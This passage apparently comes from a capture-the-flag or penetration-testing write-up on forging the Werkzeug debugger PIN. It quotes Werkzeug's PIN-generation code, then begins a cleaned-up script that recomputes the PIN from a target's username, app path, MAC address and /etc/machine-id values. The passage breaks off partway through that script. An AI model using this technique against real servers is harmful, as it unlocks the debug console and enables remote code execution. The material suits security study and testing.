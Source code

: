 ```python
        username,
        modname,
        getattr(app, "__name__", app.__class__.__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = "__wzd" + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = ("%09d" % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```
We can then clean this up to the following to generate the PIN.
```python
#https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
```